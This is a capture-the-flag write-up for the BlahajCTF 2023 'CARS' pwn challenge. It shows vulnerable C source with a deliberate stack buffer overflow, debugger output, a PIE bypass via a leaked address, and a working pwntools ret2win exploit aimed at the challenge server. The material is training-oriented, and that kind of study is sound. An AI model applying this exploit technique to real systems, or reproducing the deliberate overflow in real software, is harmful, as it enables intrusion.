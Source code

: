 ```yaml
---
title: CARS
date: 2023-12-05
tags: pwn
categories: BlahajCTF 2023
---
```


> **"**I've been playing around with this reporting system for "cyber affairs", generating ticket after ticket in hopes of breaking it. I have a feeling that there's a way to access the admin panel...**"**

## Overview

PIE + NX bypass (ROP) + ret2win

## Exploit review

I had access to the CARS binary. When runing checksec on the binary, I had obtained the following information...

```sh
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Seeing that NX is enabled, I knew that I could not just directly inject shellcode into this program and PIE being enabled suggested that the program's base address is randomised. To bypass these restrictions, the source code had to be looked at.

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cars -g -fno-stack-protector cars.c

unsigned long report_number = 0;

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

Paying close attention to the main() function, I had observed that a variable named `report_number` that's being generated from a constant seed `0xb1adee` and it's address (&) being printed out in the long format (%l). Reversing this binary in ghidra gave me the offset of `report number` from the start of the binary file, which is 

```
0x104090 - 0x100000 = 0x4090
```

To calculate program's base address, I had captured the address of `report_number` printed out in the long format, converted it to hex and subtracted 0x4090 from it. I then set the binary ELF's address to this calculated base address. PIE has been bypassed

Looking at the source code, I had noticed that there is a function conveniently planted there named `admin()` that if called, prints out the flag. But this function is not called by any other function in the program. 

Looking at file_report() immediately called after the printf() statements, I saw that 2 fgets() functions are called and the second of which allows the user to write in 256 bytes of data into the `input` variable that can only hold 28 bytes. This buffer overflow can be exploited to overwrite RIP with admin()'s return address.

Firing up GDB, I used the command 

``` sh
pattern create 400
```
and inputted the generated result into the second fgets() function as discussed earlier. This caused a seg fault that I had used to look up registers. One particular register of interest is RBP and in a x64 stack layout, RBP is right next to the return address of the stack frame which is what I had wanted to control. In the GDB result after the seg fault, I had seen that RBP is overwritten with the generated pattern.

``` sh
$rax   : 0x42              
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe5bb  →  "/home/xor8ex/blahaj/cars"
$rcx   : 0x00007ffff7ebfb00  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe1d8  →  "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x00007ffff7f9c803  →  0xf9da30000000000a ("\n"?)
$rdi   : 0x00007ffff7f9da30  →  0x0000000000000000
$rip   : 0x000055555555528d  →  <file_report+113> ret 
$r8    : 0xfe              
$r9    : 0x0               
$r10   : 0x00007ffff7dd10b8  →  0x00100022000048a8
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffe308  →  0x00007fffffffe5d4  →  "XDG_CURRENT_DESKTOP=GNOME"
$r14   : 0x0000555555557dd8  →  0x0000555555555180  →   endbr64 
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000555555554000  →   j
```

I had then used the simple command 

``` sh
pattern search $rbp
```

to find the offset of RBP. I had then +8 to the offset to find out the offset to the return address since RBP is 8 bytes long. In this case, I had found that the offset to the return address is 40. I then simply constructed a buffer overflow consisting of a payload of 40 bytes + admin()'s func address.

## Exploit

- Capture the address of **report_number** displayed in long format and convert it to hex value
- Subtract 0x4090 from the calculated hex value to obtain program's base address and set it using pwntools 'elf.address=[BASE ADDRESS]'
- Constrcut a payload consisting of 40 bytes + 8 bytes of our desired return address ([BASE ADDRESS] +elf.sym['admin']) | ROP
- Send the payload to the second fgets() in file_report()

## Exploit Code

``` python
import time
from pwn import *

context(os='linux',arch='amd64')
p=remote("139.59.224.179","30002")
#p=process("./cars")
elf=ELF('./cars')

context.log_level='DEBUG'
output=p.recvuntil("Please")
leaked_address=hex(int(output[-21:-7]))

log.info(leaked_address)

base_address=(int(leaked_address,16)-int("0x4090",16))
log.info(hex((base_address)))

elf.address=base_address

payload=b"A"*40+p64(elf.sym['admin']+1) # When setting p to remote, you have to +1 to elf.sym['admin'] due to MOVAPS issue or else the exploit just fails lmao
#payload=b"A"*40+p64(elf.sym['admin'])
p.sendlineafter("ID: ","")
p.sendlineafter("incident: ",payload)
time.sleep(1)
p.interactive()
```

Running this code, I got the flag 

```
blahaj{r0pp1n6_w17h_p13}
```